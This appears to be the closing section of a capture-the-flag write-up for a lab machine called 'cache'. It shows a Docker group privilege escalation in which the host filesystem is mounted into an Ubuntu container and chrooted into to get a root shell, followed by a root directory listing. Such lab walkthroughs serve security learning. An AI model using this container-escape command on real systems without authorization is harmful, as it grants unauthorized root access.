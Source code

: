 ### Available Container - Ubuntu Container
Checking for available docker images
<br />
```
docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        12 months ago       64.2MB
```
<br />We can use this to mount the filesystem and then run shell as root

## Escalate to Root

### GTFOBins - Docker
The exploit is very simple. More info [here](https://gtfobins.github.io/gtfobins/docker/). 
<br />
```bash
luffy@cache:/$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
root@5ad41b28c422:/#
```
<br />The machine is pwned and we can get the root flag! 
<br />
```bash
root@5ad41b28c422:~# ls -la
ls -la
total 44
drwx------  6 root root 4096 Sep 16 11:06 .
drwxr-xr-x 23 root root 4096 Jul  9 09:26 ..
lrwxrwxrwx  1 root root    9 May  5 11:21 .bash_history -> /dev/null
-rw-r--r--  1 root root 3145 Sep 18  2019 .bashrc
drwx------  2 root root 4096 Sep 18  2019 .cache
drwx------  3 root root 4096 Sep 18  2019 .gnupg
drwxr-xr-x  3 root root 4096 Sep 17  2019 .local
lrwxrwxrwx  1 root root    9 May  5 11:21 .mysql_history -> /dev/null
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Sep 18  2019 .selected_editor
drwx------  2 root root 4096 Sep 17  2019 .ssh
-rw-------  1 root root  532 Sep 17  2019 .viminfo
-rw-------  1 root root   33 Oct 10 19:10 root.txt
```
<br />Thank you for reading.

## Sources:
- https://gtfobins.github.io/gtfobins/docker/
- https://docs.docker.com/engine/reference/commandline/images/
- https://lzone.de/cheat-sheet/memcached
- https://hashcat.net/wiki/doku.php?id=example_hashes
- https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf
- https://www.exploit-db.com/exploits/48515
- https://github.com/openemr/openemr/ 

